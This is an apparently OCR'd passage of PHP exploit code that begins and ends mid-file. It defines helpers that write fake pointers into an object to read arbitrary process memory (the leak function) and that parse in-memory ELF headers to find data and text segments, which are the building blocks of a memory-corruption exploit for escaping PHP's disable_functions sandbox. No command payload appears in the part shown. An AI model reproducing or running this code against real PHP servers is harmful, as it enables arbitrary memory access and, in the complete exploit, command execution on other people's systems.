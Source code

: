 ```php
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf("%c",($ptr & 0xff));
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf("%c",($v & 0xff));
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { 

                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { 
                $text_size = $p_memsz;
            }
        }

```